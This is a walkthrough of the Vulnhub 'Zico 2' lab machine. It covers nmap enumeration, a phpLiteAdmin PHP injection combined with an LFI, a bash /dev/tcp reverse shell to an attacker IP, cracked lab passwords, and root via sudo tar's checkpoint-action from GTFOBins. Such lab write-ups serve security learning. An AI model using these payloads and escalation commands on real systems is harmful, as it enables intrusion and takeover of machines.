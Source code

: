 #phpadminlite #priv-esc #LFI #gtfobins
# Nmap
```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 68:60:de:c2:2b:c6:16:d8:5b:88:be:e3:cc:a1:25:75 (DSA)
|   2048 50:db:75:ba:11:2f:43:c9:ab:14:40:6d:7f:a1:ee:e3 (RSA)
|_  256 11:5d:55:29:8a:77:d8:08:b4:00:9b:a3:61:93:fe:e5 (ECDSA)
80/tcp    open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Zico's Shop
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          54389/tcp   status
|   100024  1          55179/udp   status
|   100024  1          57190/tcp6  status
|_  100024  1          59350/udp6  status
54389/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:E7:95:46 (Oracle Vir
```

In the page there's a file execution vuln:
![[walkthroughs/Vulnhub/Zico 2/IMG/Pasted image 20230831175714.png]]
from here:
![[walkthroughs/Vulnhub/Zico 2/IMG/Pasted image 20230831175736.png]]
also when directory fuzzing finds a `dbadmin` folder and inside that was test_db.php file 
![[walkthroughs/Vulnhub/Zico 2/IMG/Pasted image 20230906130922.png]]
found an exploit:
![[walkthroughs/Vulnhub/Zico 2/IMG/Pasted image 20230906131148.png]]
the password was `admin` the default one.

we also that we are getting the info:
![[walkthroughs/Vulnhub/Zico 2/IMG/Pasted image 20230906131809.png]]
crackstation gives:
![[walkthroughs/Vulnhub/Zico 2/IMG/Pasted image 20230906131845.png]]
`34kroot34`
`zico2215@`
When we look at the phpliteAdmin1.9.3 -> we see there's an vulnerability that makes the code execute when we add some text value to a table inside the database named: `something.php` or `something.sqlite` . and in the default when I put:
`<?php phpinfo(); ?>`, we get: becoz there was a LFI on above endpoint
![[walkthroughs/Vulnhub/Zico 2/IMG/Pasted image 20230918180756.png]]
![[walkthroughs/Vulnhub/Zico 2/IMG/Pasted image 20230918180901.png]]
![[walkthroughs/Vulnhub/Zico 2/IMG/Pasted image 20230918180927.png]]
we get the shell by:
```
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.211.130/443 0>&1'");?>
```
we stabilize the shell by:
***
step 1:
```
/usr/bin/python -c 'import pty;pty.spawn("/bin/bash")'
```

step 2:
do `ctrl+z` your main system terminal should have opened and then write this:
```
stty raw -echo; fg
```

then press `enter` two times , your terminal for the machine should be back , also type this to get some env variables like clear in that machine:
```
export TERM=xterm
```
***
# Priv-Esc
Inside the zico's home directory was there a folder named: wordpress
wordpress -> wp-config.php is a file that is used to define the creds for the database
![[walkthroughs/Vulnhub/Zico 2/IMG/Pasted image 20230918184258.png]]
`zico` `sWfCsfJSPV9H3AmQzw8`
it was the password for zico's user too: sWfCsfJSPV9H3AmQzw8
### bash_history
![[walkthroughs/Vulnhub/Zico 2/IMG/Pasted image 20230918184933.png]]
![[walkthroughs/Vulnhub/Zico 2/IMG/Pasted image 20230918184842.png]]
now this is the content of the file:
```
Arthur Antunes Coimbra, born 3 March 1953 in Rio de Janeiro), better know Zico, is a Brazilian coach and former footballer, who played as an attacking midfielder. Often called the "White Pelé", he was a creative playmaker, with excellent technical skills, vision, and en eye for goal, who is considered one of the most clinical finishers and best passers ever, as well as one of the greatest players of all time.[2][3][4] Arguably the world's best player of the late 1970s and early 80s, he is regarded as one of the best playmakers and free kick specialists in history, able to bend the ball in all directions.[5] In 1999, Zico came eighth in the FIFA Player of the Century grand jury vote, and in 2004 was named in the FIFA 100 list of the world's greatest living players.[6][7] According to Pelé, generally considered the best player ever, "throughout the years, the one player that came closest to me was Zico".[8]

With 48 goals in 71 official appearances for Brazil, Zico is fifth highest goalscorer for his national team.[9] He represented them in the 1978, 1982 and 1986 World Cups. They did not win any of those tournaments, even though the 1982 squad is considered one of the greatest Brazilian national squads ever.[10] Zico is often considered one of the best players in football history not to have been on a World Cup winning squad. He was chosen 1981[11] and 1983 Player of the Year.

Zico has coached the Japanese national team, appearing in the 2006 FIFA World Cup and winning the Asian Cup 2004, and Fenerbahçe, who were a quarter-finalist in 200 in the Champions League under his command. He was announced as the head coach of CSKA Moscow in January 2009. On 16 September 2009, Zico was signed by Greek side Olympiacos for a two-year contract after the club's previous coach, Temuri Ketsbaia, was sacked. He was fired four months later, on 19 January 2010.[
```

This is no use .... but when I find the binaries with the special permissions:
![[walkthroughs/Vulnhub/Zico 2/IMG/Pasted image 20230918185702.png]]
sudo -l says: tar , zip are sudo enabled
# root shell:
gtfo-bins says:
![[walkthroughs/Vulnhub/Zico 2/IMG/Pasted image 20230918185842.png]]
```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```
![[walkthroughs/Vulnhub/Zico 2/IMG/Pasted image 20230918190053.png]]
